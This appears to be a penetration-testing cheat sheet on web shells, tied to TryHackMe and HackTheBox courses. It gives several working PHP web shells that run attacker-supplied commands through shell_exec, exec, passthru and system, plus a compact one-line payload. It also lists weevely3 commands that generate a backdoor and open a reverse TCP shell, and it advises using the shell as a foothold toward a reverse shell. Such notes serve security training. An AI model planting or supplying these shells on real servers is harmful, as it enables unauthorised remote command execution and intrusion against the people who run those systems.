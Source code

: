 # Web shell

[![introtoshells](../../../_badges/thmp/introtoshells.svg)](https://tryhackme.com/room/introtoshells)
[![fileuploadattacks](../../../_badges/htb/fileuploadattacks.svg)](https://academy.hackthebox.com/course/preview/file-upload-attacks)

<div class="row row-cols-lg-2"><div>

A web shell is a shell that is *usually* accessed from a browser. When possible, we want to use it as a foothold to move to reverse shell.

The language used in the web shell is determined by the language the target web server understand, such as PHP, JavaScript, or .NET. ✨

⚠️ Password protect your webshells during assignments and/or randomize the parameter name <small>(e.g., don't use `cmd`)</small>.
</div><div>

For JavaScript, you need to find a way for the website to execute your web shell, as unlike PHP, it's not automatically done by visiting the web shell URL.

On Kali, you can find preinstalled web shells in: ([GitLab](https://gitlab.com/kalilinux/packages/webshells))

```shell!
$ ls /usr/share/webshells
```

Alternatively, you can use [SecLists webshells](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells).
</div></div>

<hr class="sep-both">

## PHP web shell

<div class="row row-cols-lg-2"><div>

PHP web shells are PHP files such as `webshell.php`. Once uploaded on the target, you can execute them by browsing them with a browser.

Most web shells below are using GET to take to command to run. For instance, `[...]/webshell.php?cmd=id` to run the `id` command.

Most commands below are complex to handle redirections, multi-line results, default command, etc. You can always get by using simple payloads like `<?=system($_GET[0]??true);?>` and using `?0=whoami`.

<br>

#### shell_exec

This is a compacted web shell with `shell_exec`  ([doc](https://www.php.net/manual/en/function.shell-exec.php)).

```php!
<?="<pre>".shell_exec(($_GET['cmd'] ?? "whoami")." 2>&1")."</pre>"; ?>
```

You may replace `?=` with `?php echo ` if not supported.

<br>

#### weevely3

This is a web shell using [weevely3](https://github.com/epinna/weevely3) (2.8k ⭐).

```ps
# generate a webshell.php protected by "password"
$ weevely generate <password> webshell.php
# connect to the web shell
$ weevely URL/webshell.php <password>
# see help
# ex: create a reverse shell
$ :backdoor_reversetcp IP PORT
```

</div><div>

#### phpbash

You can use the semi-interactive [phpbash](https://github.com/Arrexel/phpbash) <small>(0.8k ⭐, 2018 🪦)</small>.

<br>

#### exec

This is a web shell using `exec` ([doc](https://www.php.net/manual/en/function.exec.php))

```php!
<?php
$output = "";
exec(($_GET["cmd"] ?? "whoami")." 2>&1", $output);
echo "<pre>".implode('<br>', $output)."</pre>";
?>
```

#### passthru

This is a web shell using `passthru`  ([doc](https://www.php.net/manual/en/function.passthru.php))

```php!
echo "<pre>";
echo passthru(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
```

#### system

This is a web shell using `system` ([doc](https://www.php.net/manual/en/function.system.php))

```php!
<?php
echo "<pre>";
echo system(($_GET["cmd"] ?? "whoami")." 2>&1");
echo "</pre>";
?>
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* [wso-webshell](https://github.com/mIcHyAmRaNe/wso-webshell)
* [jspbrowser](https://github.com/tennc/webshell/tree/master/jsp/jspbrowser)
</div><div>
</div></div>